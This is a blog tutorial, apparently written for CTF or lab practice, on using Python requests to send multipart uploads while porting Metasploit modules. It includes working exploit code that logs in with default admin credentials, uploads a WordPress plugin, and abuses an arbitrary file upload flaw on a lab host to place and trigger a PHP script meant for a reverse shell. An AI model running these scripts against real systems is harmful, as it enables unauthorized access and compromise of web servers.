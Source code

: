 ```yaml
---
title: "Tutorial: Uploading Files with Python Requests"
layout: archive
date:   2020-12-31
tags: Python
tags_label: true
---
```

For Adapting Msf Scripts or Writing Exploits in Python

#### Intro

There is not much documentation on how to interact with multipart forms, this was mostly trial and error. This method was used to automate exploits by logging in to get cookies, upload a reverse shell, and then spawn a listener to connect to it, send and revieve requests (ie. commands and output).

#### Requests Format:

There are two components to the post request: url, and data (ie. form data).  
When we use requests for authentication, we can use Session to handle cookies and session keys.

```python
import requests

# With no authentication required:
data = {
    "id": "1",
    "name": "example"
}

url = "http://example.com"

resp = requests.post(url, data=data)
print(resp.text)

# With authentication:
# First we must login:
url = "http://example.com/login.php"
# Often the backend requires the prescense of the submit button field
data = {
    "user": "admin",
    "pass": "admin",
    "submit": "submit"
}
# Init a session
s = requests.Session()
# When we make the login post request with session it will store the cookies, and session keys
resp = s.post(url, data=data)

# When we make a request the session handles the cookies and session keys
admin_url = "http://example.com/admin.php"
r = s.get(admin_url)
        
```

#### MSF: WP Admin Shell Upload (Plugin Upload) Example:

The original metasploit script

![](/assets/images/tutorials/f1.png)

The python version (snippet file upload portion only)

```python

# First we would login and get a cookie (wp_init_cookies)
# and then we get the nonce (wp_nonce, which is in the actual form, and required for the request) 
url_admin_update = "{}/update.php?action=upload-plugin".format(wp_admin_addr)
   
# format of a key-value pair in data is: "[field name]": ("[file name]", "[file stream]", "[content type]", "[per part headers]")
# field name refers to the name attribute of the field in the form (ex. <input name="firstname">)
# the server usually doesn't use the filename, and instead names the file something random 
# we also use this format for any other fields in the form

# WordPress requires a nonce, and the referrer field in order for the request to be successful
data = {
    '_wpnonce': (None, wp_nonce),
    '_wp_http_referer': (None, "/wordpress/wp-admin/plugin-install.php?tab=upload"),
    'install-plugin-submit': (None, 'Install Now'),
    'pluginzip': (resource_path, open(resource_path, 'rb'), "application/octet-stream")
}

resp =  requests.post(url_admin_update, files=data, cookies=wp_init_cookies)
print(resp.status_code)
```

#### Another Example:

This form is vulnerable to arbitrary file upload. We can upload a file containing a reverse shell.

![](/assets/images/tutorials/f2.png)

This form has several mandatory fields

*   title

*   author

*   image -> the file

*   price

*   publisher

*   The save\_change field also must be present or the server throws an error. (this is only applicable when the book is not new). This example is for an existing book... but for a new book we would change the url to add\_book.php, and change the save change field to "add": (None, "Add new book") to match this form.

![](/assets/images/tutorials/f3.png)

Complete code for the exploit, first we login, make the request, and then visit the url of the uploaded file.

```python
import requests

# Login:
url = "http://192.168.99.99/admin_verify.php"
data = {
"name": "admin",
"pass": "admin",
"submit": "submit"
}
s = requests.Session()
resp = s.post(url, data=data)

# Go the book we are editting (not necessary)
book_url = "http://192.168.99.99/admin_edit.php?bookisbn=978-1-49192-706-9"
resp = s.get(book_url)

edit_book_url = "http://192.168.99.99/edit_book.php"
curr_dir = os.path.dirname(os.path.abspath(__file__))
resource_path = os.path.join(curr_dir, "script.php")

# the form data:
files = {
    "image": ("script.php", open(resource_path, 'rb'), "application/octet-stream"),
    "isbn": (None, "978-1-49192-706-9"),
    "title": (None, "C# 6.0 in a Nutshell, 6th Edition"),
    "author": (None, "Joseph Albahari, Ben Albahari"),
    "price": (None, "20.00"),
    "publisher": (None, "O''Reilly Media"),
    "save_change": (None, "save_change")
}

# make the post request:
resp = s.post(edit_book_url, files=files)
print(resp.text)
print(resp.status_code)

# Visit the location of the uploaded file: (if was a reverse shell we would start a listener first)
script_dir = "http://192.168.99.99/bootstrap/img/script.php"
resp = s.get(script_dir)
print(resp.text)          
```